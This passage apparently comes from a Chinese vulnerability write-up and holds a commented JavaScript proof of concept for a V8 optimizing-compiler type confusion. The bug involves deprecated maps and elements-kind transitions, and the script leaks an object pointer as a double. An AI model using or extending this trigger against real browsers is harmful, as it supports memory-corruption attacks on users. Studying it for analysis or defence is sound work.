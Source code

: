 <br>

**三、简单的PoC**



```
&lt;script&gt;
// The function that will be optimized to change elements kind. Could be called the “evil” function.
function change_elements_kind(a)`{`
    a[0] = Array;
`}` 
// The function that will be optimized to read values directly as unboxed (and will therefore read pointers as values). Could also be called the “evil” function.
function read_as_unboxed()`{`    
    return evil[0];
`}`
// First, we want to make the function compile. Call it.
change_elements_kind(`{``}`);
// Construct a new object. Let’s call it’s map M0.
map_manipulator = new Array(1.0,2.3); 
// We add the property ‘x’. M0 will now have an ‘x’ transition to the new one, M1. 
map_manipulator.x = 7;
// Call the function with this object. A version of the function for this M1 will be compiled.
change_elements_kind(map_manipulator);
// Change the object’s ‘x’ property type. The previous ‘x’ transition from M0 to M1 will be removed, and M1 will be deprecated. A new map, M2, with a new ‘x’ transition from M0 is generated.
map_manipulator.x = `{``}`;
// Generate the object we’ll use for the vulnerability. Make sure it is of the M2 map.
evil = new Array(1.1,2.2);
evil.x = `{``}`;
x = new Array(`{``}`);
// Optimize change_elements_kind. 
// ReduceElementAccess will be called, and it will in turn call ComputeElementAccessInfos. In the code
// snippet below (same as before), we can see that the code runs through all the maps (Note: these are // maps that have already been used in this function and compiled), and tries to update each of them.
// When reaching M1, TryUpdate will see that it’s deprecated and look for a suitable non-deprecated 
// map, and will find M2, since it has the same properties. Therefore, an elements kind transition will be 
// created from M2.
for(var i = 0;i&lt;0x50000;i++)`{`
    change_elements_kind(x);
`}`   
// Optimize read_as_unboxed. Evil is currently an instance of the M2 map, so the function will be
// optimized for that, and for fast element access (evil only holds unboxed numbered properties).
for(var i = 0;i&lt;0x50000;i++)`{`
    read_as_unboxed();
`}`
// Trigger an elements kind change on evil. Since change_elements_kind was optimized with an
// elements kind transition, evil’s map will only be changed to reflect the new elements kind.
change_elements_kind(evil);
// Call read_as_unboxed. It’s still the same M2 so a cache miss does not occur, and the optimized 
// version is executed. However, that version assumes that the values in the elements array are unboxed
// so the Array constructor pointer (stored at position 0 in change_elements_kind) will be returned as a
// double.
alert(read_as_unboxed());
&lt;/script&gt;
```
